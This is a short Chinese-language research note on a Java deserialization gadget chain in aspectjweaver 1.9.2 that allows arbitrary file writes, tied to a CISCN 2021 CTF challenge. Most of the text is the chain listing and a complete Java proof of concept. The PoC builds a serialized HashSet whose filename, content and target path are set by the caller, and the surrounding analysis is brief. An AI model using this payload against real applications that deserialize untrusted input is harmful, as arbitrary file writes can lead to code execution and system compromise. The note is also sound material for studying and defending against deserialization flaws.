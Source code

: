 # aspectjweaver任意文件写入

## Gadget chain&Requires

```
Gadget chain:
    HashSet.readObject()
        HashMap.put()
            HashMap.hash()
                TiedMapEntry.hashCode()
                    TiedMapEntry.getValue()
                        LazyMap.get()
                            SimpleCache$StorableCachingMap.put()
                                SimpleCache$StorableCachingMap.writeToPath()
                                    FileOutputStream.write()
Requires:
aspectjweaver:1.9.2
commons-collections:3.2.2(非必须)
```

## poc

```java
package com.payload;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import sun.nio.cs.StandardCharsets;

import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.util.HashSet;
import java.util.Map;

public class Aspectjweaver {
    public static Object getObject() throws InvocationTargetException, InstantiationException, IllegalAccessException, ClassNotFoundException {
        String filename = "pwned.txt";
        String content = "pwned by aspectjweaver";
        String filepath = "C:\\code\\javaser\\aspectjweaver\\";
        
        Class<?> clazz = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Constructor constructor = clazz.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        Object simpleCache = constructor.newInstance(filepath, 12);
        Transformer ct = new ConstantTransformer(content.getBytes());

        Map lazyMap = LazyMap.decorate((Map)simpleCache, ct);
        TiedMapEntry tme = new TiedMapEntry(lazyMap, filename);
        HashSet map = new HashSet(1);
        map.add(tme);

        return map;
    }
}
```

## analysis

ciscn2021决赛ezj4va中涉及到，而那道题中只用了aspectj包里的完成了写入。

`SimpleCache$StorableCachingMap.put()`

![image-20220526175452201](C:\Users\Liyc\Desktop\java反序列化\aspectjweaver\aspectjweaver.assets\image-20220526175452201.png)

`org.aspectj.weaver.tools.cache.SimpleCache.StoreableCachingMap#writeToPath`

![image-20220526175530548](C:\Users\Liyc\Desktop\java反序列化\aspectjweaver\aspectjweaver.assets\image-20220526175530548.png)

有对可控对象调用put，且put的参数可控的情况，则可以写入任意文件。

![image-20220526175617454](C:\Users\Liyc\Desktop\java反序列化\aspectjweaver\aspectjweaver.assets\image-20220526175617454.png)
